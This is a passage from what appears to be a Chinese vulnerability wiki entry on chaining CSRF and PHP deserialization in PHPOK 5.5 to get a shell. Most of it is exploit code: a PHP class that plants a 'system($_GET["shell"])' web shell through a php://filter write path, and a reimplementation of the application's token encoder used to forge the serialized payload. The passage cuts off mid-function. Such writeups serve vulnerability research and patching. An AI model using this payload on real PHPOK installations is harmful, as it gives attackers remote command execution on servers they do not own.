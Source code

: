 1.  诱导管理员访问精心构造的CSRF脚本，修改`api_code`
2.  利用已知的`api_code`，对上面可被恶意反序列化的类进行序列化后加密
3.  调用解密函数，触发反序列化

假设此处已经通过CSRF重置了系统的`api_code`为`123456`

![5.png](/Users/aresx/Documents/VulWiki/.resource/PHPOK5.5csrf+反序列化漏洞getshell/media/rId33.png)

使用脚本序列化恶意类，并对其进行`encode`

    <?php
    class cache{
        protected $key_id;
        protected $key_list;
        protected $folder;

        public function __construct(){
            $this->key_id = 'naiquan';
            $this->key_list = 'a'.base64_encode('<?php system($_GET["shell"]);?>');
            $this->folder = 'php://filter/write=string.strip_tags|convert.base64-decode/resource=';
        }
    }
    class token{
        private $keyid = '';
        private $keyc_length = 6;
        private $keya;
        private $keyb;
        private $time;
        private $expiry = 3600;

        public function keyid($keyid=''){
            if(!$keyid){
                return $this->keyid;
            }
            $this->keyid = strtolower(md5($keyid));
            $this->config();
            return $this->keyid;
        }
        private function config(){
            if(!$this->keyid){
                return false;
            }
            $this->keya = md5(substr($this->keyid, 0, 16));
            $this->keyb = md5(substr($this->keyid, 16, 16));
        }

        public function encode($string){
            if(!$this->keyid){
                return false;
            }

            $expiry_time = $this->expiry ? $this->expiry : 365*24*3600;
            $string = sprintf('%010d',($expiry_time + time())).substr(md5($string.$this->keyb), 0, 16).$string;
            $keyc = substr(md5(microtime().rand(1000,9999)), -$this->keyc_length);
            $cryptkey = $this->keya.md5($this->keya.$keyc);
            $rs = $this->core($string,$cryptkey);
            return $keyc.str_replace('=', '', base64_encode($rs));
            //return $keyc.base64_encode($rs);
        }
        private function core($string,$cryptkey){
            $key_length = strlen($cryptkey);
            $string_length = strlen($string);
            $result = '';
            $box = range(0, 255);
            $rndkey = array();
            // 产生密匙簿
            for($i = 0; $i <= 255; $i++){